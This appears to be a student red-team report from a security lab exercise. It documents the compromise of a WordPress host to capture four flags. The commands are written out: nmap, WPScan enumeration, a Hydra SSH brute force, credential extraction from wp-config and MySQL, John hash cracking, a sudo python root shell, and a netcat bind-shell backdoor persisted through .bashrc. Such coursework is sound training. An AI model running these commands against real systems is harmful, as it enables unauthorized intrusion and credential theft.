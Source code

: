 # Red Team: Summary of Operations

## Table of Contents
- Network Topology
- Exposed Services
- Critical Vulnerabilities
- Exploitation
  - Obtain Flags 1-4
  - Establish a back door

### Network Topology
![Network Topology](/Images/Final_project_top.JPG)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

Stealth Scan
```bash
$ nmap -sS 192.168.1.110
```
![Nmap Scan](/Images/NmapScan.png)

Enable OS detection, version detection, script scanning, and traceroute
```bash
$ nmap -A  192.168.1.110
```
![Nmap Scan2](/Images/NmapScan2.png)
![Nmap Scan3](/Images/NmapScan3.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22	SSH
  - Port 80	http
  - Port 111	rpcbind
  - Port 139	netbios-ssn
  - Port 445	microsoft-ds

The following vulnerabilities were identified on target 1:
- Target 1
  - CWE-200: Exposure of Sensitive Information to an Unauthorized Actor 
    - The product exposes sensitive information to an actor that is not explicitly authorized to have access to that information.
    - Allowed for port scan and identification of vulnerable ports.
  - CWE-672: Operation on a Resource after Expiration or Release
    - The software uses, accesses, or otherwise operates on a resource after that resource has been expired, released, or revoked.
    - WordPress version 4.8.7 was vulnerable to user enumeration among other vulnerabilities, and allowed for discovery of users of target 1.
  - CWE-521: Weak Password Requirements 
    - The product does not require a strong passwords, which makes it easier for attackers to compromise user accounts.
    - Allows a brute force attack to crack or guess the weak password of an user: Michael, and use the stole credentials to infiltrate the server.
  - CWE-307: Improper Restriction of Excessive Authentication Attempts 
    - The software does not implement sufficient measures to prevent multiple failed authentication attempts within in a short time frame, making it more susceptible to brute force attacks.
    - Allows a brute force attack to occur.
  - CWE-256: Unprotected Storage of Credentials
    - Storing a password in plaintext may result in a system compromise.
    - MySQL password was stored in plain text, and used to access MySQL database.
  - CWE-522: Insufficiently Protected Credentials
    - The product transmits or stores authentication credentials, but it uses an insecure method that is susceptible to unauthorized interception and/or retrieval.
    - MySQL contained user passwords hashes that was cracked by John.
  - CWE-863: Incorrect Authorization Reverse shell vulnerability 
    - The software does not correctly perform an authorization check, which  allows attackers to bypass intended access restrictions.
    - Steven, with permission of execute python exe, was used to escalate privileges to root.

Searchsploit to identify possible exploits
```bash
$ searchsploit SSH
```
![SSHVuln](/Images/SSHVuln.png)

```bash
$ searchsploit apache
```
![apacheVuln](/Images/apacheVuln.png)

```bash
$ searchsploit Samba
```
![SambaVuln](/Images/SambaVuln.png)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - WPScan to enumerate users
        - `wpscan --url 192.168.1.110/wordpress/ --enumerate u`
        - ![WPScan](/Images/WPScan.png)
      - Use Hydra to crack michael's password or guess weak password
        - `hydra -l michael -P /usr/shar/wordlists/rockyou.txt 192.168.1.110 ssh`
        - ![Hydra](/Images/Hydra.PNG)
      - Use stolen credentials to SSH into michael's account
        - `ssh michael@192.168.1.110`
        - `Password: michael`
      - Search for Flag1
        - `grep -rnw ./ -e 'flag1' 2>/dev/null`
        - ![flag1](/Images/Flag1.PNG)

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Search for Flag2 in /var/www
      - `cd /var/www`
      - `grep -rnw ./ -e 'flag2' 2>/dev/null`
      - ![flag2](/Images/Flag2.PNG)

  - `flag3.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Find plain text password in MySQL database
        - `grep -rnw ./ -e 'password' 2>/dev/null`
        - `nano /var/www/html/wordpress/wp-config.php`
        - ![PlaintextPW](/Images/PlaintextPW.PNG)
      - Access and search MySQL database for usernames and passwords
        - `mysql -u root -p'R@3nSecurity'`
        - ![My1](/Images/Mysql1.png)
        - ![My2](/Images/Mysql2.png)
        - `select post_content from wp_posts`
        - ![My3](/Images/Mysql3.png)

  - `flag4.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Find user hashed password in MySQL database
        - ![hash](/Images/HashPW.png)
      - Crack user hashed password with Jack the Ripper in a Kali terminal
        - Create a .txt file with the usernames and hash passwords
          - ![hashtxt](/Images/HashPWtext.png)
        - `john hash_pw.txt`
          - ![Cracked](/Images/Cracked.PNG)
      - Log in as Steven with cracked password
        - ![SSHSteven](/Images/SSHSteven.png)
      - Explore and escalate privilege to root
        - ![UserPrivilages](/Images/UserPrivilages.png)
        - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
      - Search for flag4
        - `find . -name flag4.txt`
        - ![flag4](/Images/flag4.png)
  - Backdooring the Target
    - **Exploit Used**
      - Backdoor installed: (Bind Shell) Netcat
      - Set up a listener on Target 1 by:
        - Gain root access to Target 1 and executing:
          - `nc -lvnp 4444 -e /bin/bash`
          - Save a .sh file of the command in .bashrc
      - Connect it to Kali by: 
        - `nc 192.168.1.110 4444`
      - ![Backdoor](/Images/Backdoor.png)

## Read [Blue Team](https://github.com/walter-t-p/RedBlueSecurityEngineer_June_8_2021/blob/main/BlueTeam.md) analysis of the attack here.

